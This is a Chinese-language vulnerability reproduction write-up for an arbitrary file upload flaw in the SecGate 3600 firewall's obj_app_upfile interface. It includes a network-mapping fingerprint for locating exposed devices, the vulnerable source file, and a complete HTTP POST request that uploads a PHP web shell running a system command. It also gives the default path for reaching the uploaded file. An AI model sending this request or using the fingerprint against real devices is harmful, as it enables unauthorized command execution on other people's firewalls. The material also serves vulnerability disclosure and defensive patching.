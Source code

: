 # 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

<a-checkbox checked>网神 SecGate 3600 防火墙 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>fid="1Lh1LHi6yfkhiO83I59AYg==" </a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1649350287241-cdcc761f-1cb6-4bb5-befa-ed101065a8bf.png)

出现漏洞的文件 webui/modules/object/app.mds

![img](../../../.vuepress/public/img/1649487600829-f37244cf-d92a-4c43-845b-42b510536d21.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![img](../../../.vuepress/public/img/1649487880029-bf876c08-7096-45a6-aafd-a94d7444bf9a.png)

```php
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问  attachements/xxx.php 文件

![img](../../../.vuepress/public/img/1649488185594-245e1a3e-604c-42a3-8096-c5e94a6315bd.png)